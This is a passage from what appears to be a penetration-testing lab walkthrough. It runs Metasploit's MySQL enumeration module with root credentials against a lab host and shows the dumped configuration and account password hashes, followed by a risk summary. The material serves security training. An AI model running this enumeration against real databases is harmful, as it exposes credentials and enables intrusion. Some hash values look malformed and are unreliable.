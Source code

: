 ```bash
# === PHASE 5: COMPREHENSIVE ENUMERATION ===
use auxiliary/admin/mysql/mysql_enum
set USERNAME root
set PASSWORD twinkle
set RHOSTS demo.ine.local
run
```
**Expected Output (Detailed Analysis):**
```
[*] Running module against 192.89.45.3

[*] 192.89.45.3:3306 - Running MySQL Enumerator...
[*] 192.89.45.3:3306 - Enumerating Parameters
[*] 192.89.45.3:3306 - MySQL Version: 5.5.61-0ubuntu0.14.04.1
[*] 192.89.45.3:3306 - Compiled for the following OS: debian-linux-gnu
[*] 192.89.45.3:3306 - Architecture: x86_64
[*] 192.89.45.3:3306 - Server Hostname: demo.ine.local
[*] 192.89.45.3:3306 - Data Directory: /var/lib/mysql/
[*] 192.89.45.3:3306 - Logging of queries and logins: OFF
[*] 192.89.45.3:3306 - Old Password Hashing Algorithm: OFF
[*] 192.89.45.3:3306 - Loading of local files: ON
[*] 192.89.45.3:3306 - Deny logins with old Pre-4.1 Passwords: OFF
[*] 192.89.45.3:3306 - Allow Use of symlinks for Database Files: YES
[*] 192.89.45.3:3306 - Allow Table Merge: YES
[*] 192.89.45.3:3306 - SSL Connection: DISABLED
[*] 192.89.45.3:3306 - SSL Connect: DISABLED
[*] 192.89.45.3:3306 - Enumerating Accounts:
[*] 192.89.45.3:3306 - List of Accounts with Password Hashes:
[*] 192.89.45.3:3306 - 	User: root Host: localhost Password Hash: *A0E23B565BACCE3E70D223915ABF25542540144
[*] 192.89.45.3:3306 - 	User: root Host: demo.ine.local Password Hash: *A0E23B565BACCE3E70D223915ABF25542540144
[*] 192.89.45.3:3306 - 	User: root Host: 127.0.0.1 Password Hash: *A0E23B565BACCE3E70D223915ABF25542540144
[*] 192.89.45.3:3306 - 	User: debian-sys-maint Host: localhost Password Hash: *F4E71A08E02883688230B992EEAC70BC598FA723
[*] 192.89.45.3:3306 - 	User: filetest Host: localhost Password Hash: *81F5E21E354D70D8446CDAA731AEBFB6AF209E18
[*] 192.89.45.3:3306 - 	User: ultra Host: localhost Password Hash: *827841258900DAA81738418E11B73EB49659BFDD3
```

**🔍 Security Analysis:**
- ⚠️ **HIGH RISK**: Local file loading enabled (potential LFI)
- ⚠️ **HIGH RISK**: SSL disabled (cleartext communication)
- ⚠️ **MEDIUM RISK**: Query logging disabled (no audit trail)
- ✅ **GOOD**: Old password hashing disabled
- 🎯 **CRITICAL**: 6 user accounts with extractable password hashes

### 🔓 Example 3: SQL Query Execution and Database Exploration
**Scenario**: Manual database exploration and data extraction
